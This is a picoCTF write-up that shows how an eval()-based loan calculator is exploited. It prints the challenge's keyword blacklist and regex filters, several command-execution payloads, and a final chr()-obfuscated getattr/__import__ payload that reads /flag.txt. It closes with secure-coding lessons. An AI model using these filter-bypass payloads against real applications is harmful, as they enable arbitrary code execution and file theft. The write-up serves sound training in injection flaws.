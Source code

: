 # picoCTF Write-Up: 3v@l 

## **Challenge Overview**  
The challenge involved a vulnerable loan calculator on a bank’s website that allowed users to input a mathematical formula. The backend executed this input using Python’s `eval()` function, creating a security risk. However, the developers attempted to mitigate Remote Code Execution (RCE) by blocking certain keywords and implementing regex filters. Our goal was to bypass these restrictions and read the flag from `/flag.txt`.  

---

## **Step 1: Analyzing the Source Code**  
The provided source code revealed the following security measures:  
1. **Keyword Blacklisting**: The application blocked keywords such as `os`, `eval`, `exec`, `subprocess`, `socket`, `cat`, `bind`, and others.  
2. **Regex Filtering**: The following patterns were blocked:  
   - **Hex Encoding** (`0x[0-9A-Fa-f]+`)  
   - **Unicode Encoding** (`\\u[0-9A-Fa-f]{4}`)  
   - **Percent Encoding** (`%[0-9A-Fa-f]{2}`)  
   - **File Extensions** (`\.[A-Za-z0-9]{1,3}\b`)  
   - **Slashes and Traversal Characters** (`[\\\/]|\.\.`)  
3. **Direct Evaluation of User Input**: Since `eval()` executes arbitrary expressions, any input passing the filters could potentially execute Python code.  

Despite these protections, **`eval()` was still processing user input**, meaning we had a possible vector for RCE if we could construct a valid payload.  

---

## **Step 2: Initial Exploitation Attempts**  
We first attempted standard Python command execution payloads:  

```python
__import__('os').system('cat /flag.txt')
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'os'."`  

We then tried using `subprocess` as an alternative:  

```python
__import__('subprocess').getoutput('cat /flag.txt')
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'subprocess'."`  

This confirmed that direct access to system-level commands was restricted.  

---

## **Step 3: Understanding the Filtering Mechanism**  
### **3.1: Testing for Built-in Function Access**  
Since `os` and `subprocess` were blocked, we attempted to access built-in Python functions dynamically:  

```python
getattr(__builtins__, 'open')('/flag.txt').read()
```
🚨 **Blocked**: `"Error: Detected forbidden keyword 'open'."`  

This indicated that **blacklisted keywords were detected even when accessed dynamically**, meaning the filter was applied **before** execution.  

---

### **3.2: Discovery of Quote Restrictions**  
At one point, the error message changed to:  
🚨 `"Error: Detected forbidden keyword ''."`  

This suggested that **quotes (`"`, `'`) were entirely blocked**, preventing us from defining strings in the usual way (`"cat /flag.txt"` or `'cat /flag.txt'`).  

---

## **Step 4: Bypassing Quote and Keyword Restrictions**  
Since quotes were blocked, we needed to construct strings dynamically. The `chr()` function, which converts numbers into characters, became our key tool.  

For example:  
```python
chr(99) + chr(97) + chr(116)  # This spells "cat"
chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)  # This spells "/flag.txt"
```
This allowed us to form blocked words **without directly typing them**.  

---

## **Step 5: Crafting the Final Exploit**  
Now, we needed a way to:  
1. Access Python’s built-in functions dynamically.  
2. Construct blocked words (`open`, `/flag.txt`) using `chr()`.  

The working exploit was:  

```python
getattr(__import__(
    chr(98) + chr(117) + chr(105) + chr(108) + chr(116) + chr(105) + chr(110) + chr(115)
), 
    chr(111) + chr(112) + chr(101) + chr(110)
)(
    chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
).read()
```

---

### **Step 5.1: Breaking Down the Exploit**  
1. **Accessing `builtins`**  
   ```python
   __import__('builtins')
   ```
   - The `builtins` module contains Python’s core functions, including `open()`.  
   - Since `"builtins"` was blocked in plaintext, we built it dynamically:  
     ```python
     chr(98) + chr(117) + chr(105) + chr(108) + chr(116) + chr(105) + chr(110) + chr(115)  
     ```
     - This translates to `"builtins"`.  

2. **Retrieving the `open()` Function**  
   ```python
   getattr(__import__('builtins'), 'open')
   ```
   - Since `"open"` was blocked, we built it dynamically:  
     ```python
     chr(111) + chr(112) + chr(101) + chr(110)
     ```
     - This translates to `"open"`.  

3. **Reading the Flag File**  
   ```python
   open('/flag.txt').read()
   ```
   - Since `"/flag.txt"` was blocked, we constructed it with `chr()`:  
     ```python
     chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116)
     ```
     - This translates to `"/flag.txt"`.  

4. **Executing the Payload**  
   ```python
   getattr(__import__('builtins'), 'open')('/flag.txt').read()
   ```
   - Successfully reads and returns the flag. 🎉  

---

## **Step 6: Lessons Learned**
1. **`eval()` is Dangerous**  
   - The root cause of this vulnerability was using `eval()` to process user input without proper sanitization.  
   - `eval()` should **never** be used with untrusted input, as it allows arbitrary code execution.  

2. **Keyword Blacklisting is Ineffective**  
   - The challenge attempted to block dangerous functions but failed because Python allows **dynamic function access** (e.g., `getattr()` and `__import__()`).  
   - A better approach would have been **whitelisting** safe operations rather than blacklisting dangerous ones.  

3. **Quotes Can Be Bypassed with `chr()`**  
   - If quotes are blocked, `chr()` can be used to construct any string dynamically.  
   - This is a powerful technique when dealing with strict input filters.  

---

## **Conclusion**
By understanding how Python executes code and how filters were applied, we successfully bypassed multiple layers of restrictions to achieve **Remote Code Execution (RCE)** and retrieve the flag. This challenge reinforced the importance of **secure coding practices**, especially when handling user input.  
